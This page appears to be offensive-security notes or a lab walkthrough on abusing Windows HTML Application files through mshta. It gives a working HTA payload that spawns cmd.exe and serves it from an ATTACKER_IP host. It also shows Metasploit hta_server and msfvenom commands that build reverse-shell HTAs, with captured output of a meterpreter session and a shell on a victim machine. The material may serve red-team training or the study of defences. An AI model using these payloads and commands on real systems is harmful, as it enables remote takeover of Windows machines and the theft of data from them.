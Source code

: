 ```yaml
---
title: HTA
description:  An HTML Application (HTA) is a Microsoft Windows program that combines HTML, Dynamic HTML, and scripting languages supported by Internet Explorer, such as VBScript or JScript, to create a desktop application-like interface
---
```


## HTML Application

The LOLBINS tool `mshta` is used to execute HTA files. It can be executed by itself or automatically from Internet Explorer. 


In the following example, we will use an ActiveXObject in our payload as proof of concept to execute cmd.exe. 

Consider the following HTML code.

```html
<html>
<body>
	<script>
		let c ='cmd.exe';
		new ActiveXObject('WScript.Shell').Run(c);
	</script>
</body>
</html>
```

Then serve the payload.hta from a web server, this could be done from the attacking machine as follows,
```bash
user@machine$ python3 -m http.server 8090 
Serving HTTP on 0.0.0.0 port 8090 (http://0.0.0.0:8090/)
```
On the victim machine, visit the malicious link  http://ATTACKER_IP.37:8090/payload.hta

## Malicious HTA

Another way to generate and serve malicious HTA files using the Metasploit framework.

```bash
msf6 > use exploit/windows/misc/hta_server 
msf6 exploit(windows/misc/hta_server) > set LHOST 10.8.232.37 
LHOST => 10.8.232.37 
msf6 exploit(windows/misc/hta_server) > set LPORT 443 
LPORT => 443 
msf6 exploit(windows/misc/hta_server) > set SRVHOST 10.8.232.37 
SRVHOST => 10.8.232.37 
msf6 exploit(windows/misc/hta_server) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp 
msf6 exploit(windows/misc/hta_server) > exploit 
[*] Exploit running as background job 0. 
[*] Exploit completed, but no session was created. msf6 exploit(windows/misc/hta_server) > 
[*] Started reverse TCP handler on 10.8.232.37:443 
[*] Using URL: http://10.8.232.37:8080/TkWV9zkd.hta 
[*] Server started.

```
We can create a reverse shell payload as follows,
```bash
user@machine$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.232.37 LPORT=443-f hta-psh -o malicious.hta
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of hta-psh file: 7692 bytes
Saved as: malicious.hta
```

On the victim machine, once we visit the malicious HTA file that was provided as a URL by Metasploit, we should receive a reverse connection.
```bash
user@machine$[*]10.10.201.254    hta_server - Delivering Payload
[*] Sending stage (175174 bytes) to 10.10.201.254
[*] Meterpreter session 1 opened (10.8.232.37:443 -> 10.10.201.254:61629) at 2021-11-16 06:15:46 -0600
msf6 exploit(windows/misc/hta_server) > sessions -i 1
[*] Starting interaction with 1...
meterpreter > sysinfo
Computer        : DESKTOP-1AU6NT4
OS              : Windows 10 (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 3
Meterpreter     : x86/windows
meterpreter > shell
Process 4124 created.
Channel 1 created.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.
C:\app>
```